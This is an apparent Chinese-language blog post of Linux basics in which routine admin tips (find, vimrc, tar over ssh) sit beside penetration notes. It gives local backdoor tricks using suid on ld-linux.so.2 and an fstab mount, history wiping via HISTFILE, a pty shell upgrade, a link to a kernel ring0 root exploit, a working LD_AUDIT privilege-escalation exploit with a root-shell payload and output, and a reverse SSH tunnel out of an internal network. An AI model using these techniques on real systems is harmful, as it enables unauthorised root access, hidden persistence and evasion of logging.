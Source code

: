 ```yaml
---
layout: post
title: "Linux基础汇总"
---
```


## Linux基础汇总


* suid/guid

	suid意味着如果A用户对属于他自己的shell脚本文件设置了这种权限，那么其他用户在执行这个脚本的时候就拥有了A用户的权限。所以，如果 root用户对某一脚本设置了这一权限的话则其他用户执行该脚本的时候则拥有了root用户权限。同理，guid意味着执行相应脚本的用户则拥有了该文件所属用户组中用户的权限。

	给文件加suid和sgid的命令如下：

	    chmod u+s filename 设置suid位
	    chmod u-s filename 去掉suid设置
	    chmod g+s filename 设置sgid位
	    chmod g-s filename 去掉sgid设置

* find / -type f -perm /u+s -ls

	-perm #按执行权限来查找  
	-type b/d/c/p/l/f #查是块设备、目录、字符设备、管道、符号链接、普通文件
	
* find ./ -name ‘*.java’ -exec grep -i “ABCD” {} \; -print 在当前路径不区分大小写查找所有*.java的文件里面含有”ABCD”的内容行，并且print出来文件的路径

* find /web/htdocs -type f -name "*.php" |xargs grep "eval(" > /tmp/test.txt

* Linux kernel 2.6 < 2.6.19 (32bit) ip_append_data() local ring0 root exploit

	[http://www.lengmo.net/post/1380]

* 本地后门2法 xi4oyu

	1.
	
	    cd /lib
	    chmod +s ld-linux.so.2
	    /lib/ld-linux.so.2 `which whoami`

	2.
	
	    chmod a+w /etc/fstab
	    echo 'test /mnt ext2 user,suid,exec,loop 0 0' >> /etc/fstab
	    chown root.root setuid
	    chmod u+s setuid
	    mount test
	    cd /mnt

* ssh的history处理 & 日至相关

	    export HISTFILE=/dev/null

	ssh日志默认保存在 /var/log/secure文件里
	
* python -c 'import pty; pty.spawn("/bin/sh")'

* 基础操作  
	增加一个用户  
	useradd application  
	passwd // 根据提示设置密码
	
* exp

	    $ mkdir /tmp/exploit
	    $ ln /bin/ping /tmp/exploit/target
	    $ exec 3< /tmp/exploit/target
	    $ ls -l /proc/$$/fd/3
	    $ rm -rf /tmp/exploit/
	    $ cat > payload.c
	    void __attribute__((constructor)) init()
	    {
	        setuid(0);
	        system("/bin/bash");
	    }
	    ^D
	    $ gcc -w -fPIC -shared -o /tmp/exploit payload.c
	    $ ls -l /tmp/exploit
	    $ LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3
	    sh-4.1# whoami
	    root
	    sh-4.1# id
	    uid=0(root) gid=500(taviso)

* 自己建立ipkg feed服务器

	[http://www.oesf.org/index.php?title=Setting_Up_A_Feed ipkg-make-index.sh]
	
	[http://buffalo.nas-central.org/wiki/Construct_ipkg_packages_(for_developers)]
	
	gzip -9c Packages > Packages.gz


* 连接godaddy的ftp需要用passive模式。ftp之后，运行passive

* C库（glibc）  
	glibc是个C库，几乎所有的应用程序都需要共享它提供的功能（除了kernel、bootload、和其它完全不用C库的功能代码），因此glibc的存在有利益小系统或嵌入系统缩减系统总代码尺寸与存放空间（尽管单个的glibc库是比较大的）。所以，最后的工作就是：构造ARM交叉编译系统的glibc库。

* 安装语言包  
	sudo apt-get install language-support-zh  
	hello

* .vimrc编写指南  
	set nocp #该命令指定让 VIM 工作在不兼容模式下  
	set ru #该命令打开 VIM 的状态栏标尺。  
	set hls #搜索时高亮显示被找到的文本。  
	syntax on #打开关键字上色。  
	set backspace=indent,eol,start #字母删除问题  
	set whichwrap=b,s,<,>,[,] #光标跳转  

* linux下使用tar和ssh压缩传输文件

	    ssh username@remoteip "cd /some/path/; tar czf - path" | tar xvzf -#压缩传输
	    tar cvzf - /path/ | ssh username@remoteip "cd /some/path/; tar xvzf -" #压缩传输一个目录并解压

* ssh sock

	    ssh username@my_host_ip_address -D 7070
	    ssh -N -L 5555:202.202.202.1:22 admin@101.101.101.1
	    ssh -N -D 7070 user@localhost -p 555
	>内网运行：ssh -f -N -R 10000:localhost:22 username@反连的外网ip也就是说，在主控端10000端口和被控端的22端口上建立了一个通道。-R [listen-IP:]listen-port:host:portForward remote port to local address外网ip运行：ssh username@localhost -p 10000

* 未完待续






